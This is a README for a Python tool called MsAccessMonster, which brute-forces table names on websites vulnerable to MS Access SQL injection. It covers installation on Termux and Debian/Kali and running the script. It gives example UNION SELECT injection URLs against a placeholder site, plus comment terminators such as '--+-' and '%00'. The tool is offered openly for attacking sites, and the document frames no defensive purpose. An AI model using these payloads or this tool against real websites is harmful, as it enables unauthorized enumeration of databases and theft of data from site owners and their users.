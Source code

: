 ## MsAccessMonster
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this tool is completely written in python, it will run in all devices including, Termux and Debian based OS ( Ubuntu, Kali etc. ).

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 && python3-pip && git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Tool running commands ( for every devices & OS )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
***Note :: Use the word "from" after the 1st input or, the tool won't properly***.

Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,
```
--
--+-
%00
;%00
```
After giving the perfect comment, you will be told to give your table_name's list or, word list. By default, we have given a default word list which contains 3k+ table names. If you want to use that put your command like this,
```
tables.txt
```
If you want to give your custom word list put the path then. For example,
```
/sdcard/tables.txt
```
Now, hit enter and wait for the matched response. For example,
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
Here, ```...``` is the correct table names
